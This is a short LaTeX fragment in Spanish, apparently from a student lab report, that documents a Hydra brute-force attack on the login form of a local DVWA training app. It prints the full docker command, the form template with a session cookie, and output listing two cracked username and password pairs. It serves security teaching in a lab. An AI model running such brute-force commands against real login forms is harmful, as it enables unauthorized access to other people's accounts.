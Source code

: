 \documentclass[letterpaper,12pt]{article}
\let\origsubsection\subsection
\renewcommand{\subsection}{\FloatBarrier\origsubsection}
\begin{document}
Para realizar el ataque se ejecutó la imagen oficial de Hydra en Docker y se configuraron los parámetros clave del módulo `http-get-form`:
\begin{itemize}
        \item \verb|--network="host"|: expone la red del contenedor para alcanzar el DVWA publicado en el puerto 8889.
        \item \verb|-v "$(pwd)":/data|: monta el directorio actual dentro del contenedor para compartir diccionarios y registrar el resultado en \verb|/data|.
        \item \verb|-L| y \verb|-P|: apuntan a los diccionarios ligeros de usuarios y contraseñas preparados previamente.
        \item \verb|-s 8889 localhost http-get-form|: especifica el puerto, host y módulo de Hydra que automatiza envíos GET sobre el formulario objetivo.
    \item Cadena del formulario: define los nombres de los campos \verb|username| y \verb|password|, la acción \verb|Login|, inyecta la cookie de sesión y detecta éxito cuando aparece ``Welcome to the password protected area''. La plantilla utilizada fue:
\begin{verbatim}
'/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie: PHPSESSID=...; security=low:S=Welcome to the password protected area'
\end{verbatim}
        \item \verb|-o /data/hydra_light.txt|: guarda el log con las combinaciones válidas encontradas.
\end{itemize}


\begin{verbatim}
$ sudo docker run --rm --network="host" -v "$(pwd)":/data vanhauser/hydra \
    -L /data/usuarios_light.txt -P /data/contrasenas_light.txt -s 8889 \
    localhost http-get-form \
        '/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie\: PHPSESSID=knd082p12k28do4ttsn47hfd35; security=low:S=Welcome to the password protected area' \
    -o /data/hydra_light.txt
\end{verbatim}


\subsection{Obtención de al menos 2 pares (hydra)}

\begin{verbatim}
[8889][http-get-form] ... login: admin   password: password
[8889][http-get-form] ... login: gordonb password: abc123
1 of 1 target successfully completed, 2 valid passwords found
\end{verbatim}
\end{document}
